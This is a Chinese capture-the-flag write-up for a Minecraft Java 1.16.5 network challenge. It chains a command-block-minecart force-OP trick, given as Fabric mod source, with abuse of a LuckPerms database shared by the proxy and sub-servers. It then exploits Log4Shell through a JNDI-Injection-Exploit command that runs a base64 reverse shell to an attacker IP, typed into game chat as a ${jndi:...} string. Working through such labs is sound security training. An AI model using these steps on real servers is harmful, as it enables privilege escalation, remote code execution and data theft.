








# Minecraft

## 题目简述

题目是 Minecraft Java Edition 1.16.5 公共环境渗透。附件中的 Docker 编排显示环境由 Velocity 代理、lobby、creative 子服、survival 子服和 PostgreSQL 组成。Velocity 负责把玩家从 lobby 发送到 creative；`/server` 切服权限 `velocity.command.server` 被禁止；多个服务端的 LuckPerms 共用 PostgreSQL 数据库 `vnctfminecraftVVVVV`。

关键结构是：creative 子服为 Paper 1.16.5，强制创造模式且启用命令方块；survival 子服为 Paper 1.16.5-783，使用 OpenJDK 8u162，并且容器内有 flag。解题链路是先在 creative 利用命令方块矿车编辑漏洞提权为 OP，再通过 LuckPerms/数据库权限获得 Velocity 的切服权限，进入 survival 后利用未修复的 Log4Shell/JNDI 注入执行命令读取 flag。

## 解题过程

When you awaken, you find yourself standing in a world that appears free, where blocks are within reach, yet
the rules remain faint and elusive. This place opens its gates to everyone, but it has never truly trusted anyone.
As your exploration deepens, you begin to sense the hidden order quietly governing this world. To move
forward, your hands alone are not enough. You must earn greater recognition to step into a realm that is more
real and far more dangerous, where secrets capable of changing fate lie in wait.
Good luck, adventurer.
当你苏醒时，你发现自己站在一个看似自由的世界里，方块触手可及，但规则仍然模糊而难以捉摸。这里向所有
人敞开大门，却从未真正信任任何人。
随着探索的深入，你开始察觉到这个世界背后暗中运作的秩序。要继续前进，仅凭双手还不够。你必须获得更高
的认可，才能踏入一个更真实、也更危险的领域，那里隐藏着足以改变命运的秘密。
祝你好运，冒险者。
This challenge uses a public environment. Please use Minecraft Java Edition 1.16.5 to connect to the
multiplayer server.
本挑战使用公共环境。请使用 Minecraft Java Edition 1.16.5 连接比赛公网服务器。
The target environment is automatically reset every hour. During a reset, it may take 1 to 3 minutes for the
environment to fully start up.
靶机环境每小时自动重置一次。重置时环境完全启动可能需要1到3分钟。
下载附件，可以发现给了docker-compose.yml和5个文件夹，发现postgres_data文件夹内容
是/var/lib/postgresql/data，其他4个文件夹下的内容分别对应其他4个容器。



对几个文件夹逐一分析能够得到以下信息：
velocity文件夹为vcserver，为代理服务端，用于连接lobby vncreative vnsurvival几个子服，plugins文件夹下安装
了Luckperms-Velocity插件用于管理端权限，AuthmeVelocity用于玩家在lobby登录后将其发送到vncreative子服

```
FROM eclipse-temurin:21-jre AS builder
WORKDIR /server
COPY velocity-3.4.0-SNAPSHOT-563.jar .
COPY forwarding.secret .
COPY velocity.toml .
COPY plugins/ plugins/
COPY start.sh .
RUN chmod +x start.sh && java -jar velocity-3.4.0-SNAPSHOT-563.jar --help
FROM eclipse-temurin:21-jre
RUN adduser --disabled-password --gecos "" paper \
  && mkdir -p /home/paper/server \
  && chown -R paper:paper /home/paper
USER paper
WORKDIR /home/paper/server
COPY --from=builder --chown=paper:paper /server /home/paper/server
EXPOSE 25565
CMD ["./start.sh"]
# velocity.toml
[servers]
# Configure your servers here. Each key represents the server's name, and the
value
# represents the IP address of the server to connect to.
lobby = "lobby:50001"
vncreativeSecretName = "paperserver1:50002"
vnsurvivalSecretName = "paperserver2:50003"
# AuthmeVelocity Proxy
# Original Developer: xQuickGlare
# Actual Developer: 4drian3d
# List of login/registration servers
authServers = ["lobby"]
[SendOnLogin]
    # Send logged in players to another server?
    sendToServerOnLogin = true
# List of servers to send
    # One of these servers will be chosen at random
    teleportServers = ["vncreativeSecretName"]
[Commands]
    # Sets the commands that users who have not yet logged in can execute
    allowedCommands = ["login", "register", "l", "reg", "email", "captcha",
"log"]
# Sets the message to send in case a non-logged-in player executes an
unauthorized command
    # To deactivate the message, leave it empty
    blockedCommandMessage = "<red>You cannot execute commands if you are not
logged in yet"
[EnsureAuthServer]
    # Ensure that the first server to which players connect is an auth server
    ensureFirstServerIsAuthServer = true
```

lobby文件夹为lobby，对应velocity.toml中的lobby，进入时强制为冒险模式并安装了Authme插件用于离线玩家注
册，同时安装了Luckperms权限插件，使用的Java版本为Java16

```
FROM eclipse-temurin:16 AS builder
WORKDIR /server
COPY paper-1.16.5-794.jar .
COPY eula.txt .
COPY server.properties .
COPY bukkit.yml .
COPY paper.yml .
COPY world/ world/
COPY plugins/ plugins/
COPY start.sh .
RUN chmod +x start.sh && java -jar paper-1.16.5-794.jar --help
FROM eclipse-temurin:16
RUN adduser --disabled-password --gecos "" paper \
  && mkdir -p /home/paper/server \
  && chown -R paper:paper /home/paper
USER paper
WORKDIR /home/paper/server
COPY --from=builder --chown=paper:paper /server /home/paper/server
EXPOSE 50001
CMD ["./start.sh"]
```

paper-1.16.5为paperserver1，对应velocity.toml中的vncreative，进入时强制为创造模式，且启用了命令方块，安
装了Luckperms权限插件和Chunky插件用于区块生成和限制跑图，使用的Java版本为Java16

```
FROM eclipse-temurin:16 AS builder
WORKDIR /server
COPY paper-1.16.5-794.jar .
COPY eula.txt .
COPY server.properties .
COPY bukkit.yml .
COPY paper.yml .
COPY world/ world/
COPY world_the_end/ world_the_end/
COPY world_nether/ world_nether/
COPY plugins/ plugins/
COPY start.sh .
RUN chmod +x start.sh && java -jar paper-1.16.5-794.jar --help
FROM eclipse-temurin:16
RUN adduser --disabled-password --gecos "" paper \
  && mkdir -p /home/paper/server \
  && chown -R paper:paper /home/paper
USER paper
WORKDIR /home/paper/server
COPY --from=builder --chown=paper:paper /server /home/paper/server
EXPOSE 50002
CMD ["./start.sh"]
enable-command-block=true
gamemode=creative
force-gamemode=true
```

paper-1.16.5-2为paperserver2，对应velocity.toml中的vnsurvival，进入时强制为生存模式，且启用了命令方块，
只安装了Chunky插件用于区块生成和限制跑图，使用的Java版本为openjdk 8u162，同时发现使用的服务端版本
与其他两个子服务器不同，为paper-1.16.5-783.jar，同时可以发现flag被拷贝到容器中。

```
FROM openjdk:8u162 AS builder
WORKDIR /server
COPY paper-1.16.5-783.jar .
COPY eula.txt .
COPY server.properties .
COPY bukkit.yml .
COPY paper.yml .
COPY world/ world/
COPY world_the_end/ world_the_end/
COPY world_nether/ world_nether/
COPY plugins/ plugins/
COPY start.sh .
COPY flag .
RUN chmod +x start.sh && java -jar paper-1.16.5-783.jar --help
FROM openjdk:8u162
RUN adduser --disabled-password --gecos "" paper \
  && mkdir -p /home/paper/server \
  && chown -R paper:paper /home/paper
USER paper
WORKDIR /home/paper/server
COPY --from=builder --chown=paper:paper /server /home/paper/server
EXPOSE 50003
CMD ["./start.sh"]
```

连接给出的数据库发现使用/server命令切换服务器的权限velocity.command.server被禁止



对几个文件夹下的Luckperms插件配置进行分析，可以发现vcserver lobby paperserver1几个服务端的Luckperms
插件均使用PostgreSQL的vnctfminecraftVVVVV数据库对权限数据进行存储。此时则存在一个问题，原则上子服
务器下无法修改代理端的权限，需要先在代理端(vcserver)的控制台先使用/lpv命令授予权限；子服务器上的OP操
作员默认可以使用/lp命令对权限进行修改；而几个服务端均使用PostgreSQL的vnctfminecraftVVVVV数据库对权
限数据进行存储，则存在可以在子服务器上修改代理端配置的权限的问题。

```
storage-method: PostgreSQL
# The following block defines the settings for remote database storage methods.
#
# - You don't need to touch any of the settings here if you're using a local
storage method!
# - The connection detail options are shared between all remote storage types.
data:
# Define the address and port for the database.
  # - The standard DB engine port is used by default
  #   (MySQL: 3306, PostgreSQL: 5432, MongoDB: 27017)
  # - Specify as "host:port" if differs
  address: postgresmc:5432
# The name of the database to store LuckPerms data in.
  # - This must be created already. Don't worry about this setting if you're
using MongoDB.
  database: vnctfminecraftVVVVV
# Credentials for the database.
  username: postgres
  password: 'your-secret-key-not-here'
```

此时结合得到的信息和题目描述则可知需要通过修改此权限切换到paperserver2获取flag，则可知需要在
paperserver1中尝试提权到OP或执行命令
在Google上搜索paper minecraft 1.16 force op exploit可以找到一些Youtube视频，观看可以发现有
几个视频的方法类似于XSS需要管理员权限的玩家查看特制的书籍，而docker中并没有COPY包含操作员名称和
UUID的ops.json，往下继续看可以找到这个视频[NEW Minecraft Force-OP Exploit! (No Sketchy Downloads, No Surveys, No Scam! (Spigot & PaperMC)](https://www.youtube.com/watch?v=oocTidzrHRM)


根据描述可以知道此漏洞适用于Spigot/Paper 1.13-1.17，需要创造模式，但是发现视频附件的链接已经失效，则
需要根据视频的内容和操作编写Farbic的mod，添加编译好的mod到mod文件夹

```
package com.minecraftedit;
import net.fabricmc.api.ClientModInitializer;
import net.fabricmc.api.ModInitializer;
import net.fabricmc.fabric.api.client.event.lifecycle.v1.ClientTickEvents;
import net.minecraft.client.MinecraftClient;
import net.minecraft.entity.Entity;
import net.minecraft.entity.vehicle.CommandBlockMinecartEntity;
import net.minecraft.util.hit.EntityHitResult;
import net.minecraft.util.hit.HitResult;
import net.minecraft.world.GameMode;
public class MinecartEditorMod implements ModInitializer, ClientModInitializer
{
    private static boolean editRequested = false;
@Override
    public void onInitialize() {
    }
@Override
    public void onInitializeClient() {
        ClientTickEvents.END_CLIENT_TICK.register(client -> {
            if (editRequested) {
                editRequested = false;
                tryOpenCommandBlockMinecart(client);
            }
        });
    }
public static void requestEdit() {
        editRequested = true;
    }
private static void tryOpenCommandBlockMinecart(MinecraftClient client) {
        if (client.player == null || client.interactionManager == null) {
            return;
        }
if (client.interactionManager.getCurrentGameMode() !=
GameMode.CREATIVE) {
            return;
        }
HitResult hitResult = client.crosshairTarget;
        if (!(hitResult instanceof EntityHitResult)) {
            return;
        }
Entity entity = ((EntityHitResult) hitResult).getEntity();
        if (!(entity instanceof CommandBlockMinecartEntity)) {
            return;
        }
CommandBlockMinecartEntity minecart = (CommandBlockMinecartEntity)
entity;

client.player.openCommandBlockMinecartScreen(minecart.getCommandExecutor());
    }
}
package com.minecraftedit.mixin;
import com.minecraftedit.MinecartEditorMod;
import net.minecraft.client.network.ClientPlayerEntity;
import org.spongepowered.asm.mixin.Mixin;
import org.spongepowered.asm.mixin.injection.At;
import org.spongepowered.asm.mixin.injection.Inject;
import org.spongepowered.asm.mixin.injection.callback.CallbackInfo;
@Mixin(ClientPlayerEntity.class)
public class ChatScreenMixin {

    @Inject(method = "sendChatMessage", at = @At("HEAD"), cancellable = true)
    private void onSendChatMessage(String message, CallbackInfo ci) {
        if ("^edit".equals(message == null ? null : message.trim())) {
            MinecartEditorMod.requestEdit();
            ci.cancel();
        }
    }
}
```

先进入单人游戏使用命令获取命令方块矿车，然后保存快捷栏再加入服务器，取出命令方块矿车并放置



使用Mod进行对矿车进行编辑，输入execute as @e run op [玩家ID] 命令，激活矿车即可提权到OP





根据给出的postgreSQL数据，为自己添加velocity.command.server 的权限，则可以切换到paperserver2上
的vnsurvival子服务器



在前面已经发现paperserver2，使用的Java版本为openjdk 8u162，同时使用的服务端版本与其他两个子服务器不
同为paper-1.16.5-783.jar。直接搜paper 1.16 rce很容易找到log4j的漏洞



同时查看paper 1.16.5的下载页面可以发现在#791往后的版本是更新了log4j将这个漏洞修复了，则可以知道该子
服务器的版本存在这个漏洞



同时可以查询到 Oracle JDK 11.0.1, 8u191, 7u201, and 6u211及以后的版本，为了限制LDAP协议的JNDI利用，
将系统属性com.sun.jndi.ldap.object.trustURLCodebase的默认值设置为false，即默认不允许LDAP从远程地址加
载objectfactory类。
服务端使用的jdk为8u162，则可以使用LDAP直接从远程地址加载objectfactory类
这边是直接使用了[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)这个JNDI注入工具去开了一个ldap服务用于反弹shell

工具启动后会生成 JNDI payload 链接，并监听 HTTP/RMI/LDAP 服务：

```text
[JETTYSERVER] >> Listening on 0.0.0.0:8180
[RMISERVER]  >> Listening on 0.0.0.0:1099
[LDAPSERVER] >> Listening on 0.0.0.0:1389
```

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar \
  -C "bash -c {echo,<base64_reverse_shell>}|{base64,-d}|{bash,-i}" \
  -A <attacker_ip>
```

开启后直接在游戏聊天栏中输入${jndi:给出的地址}


然后反弹 shell，在服务器目录读取 `flag`：

```text
$ nc -lvnp 22222
Listening on 0.0.0.0 22222
Connection received ...
$ pwd
/home/paper/server
$ cat flag
VNCTF{...}
```

## 方法总结

Minecraft 综合题要先画清代理、子服、插件和数据库之间的信任边界。共享 LuckPerms 数据库会让“子服 OP 权限”和“代理权限”之间出现可利用的桥；creative 模式和命令方块矿车可以成为提权入口；旧 Paper + 旧 JDK 又提供 Log4Shell 的最终 RCE。版本号、Java 版本、插件配置和跨服权限存储方式都是题目简述里必须保留的关键信息。
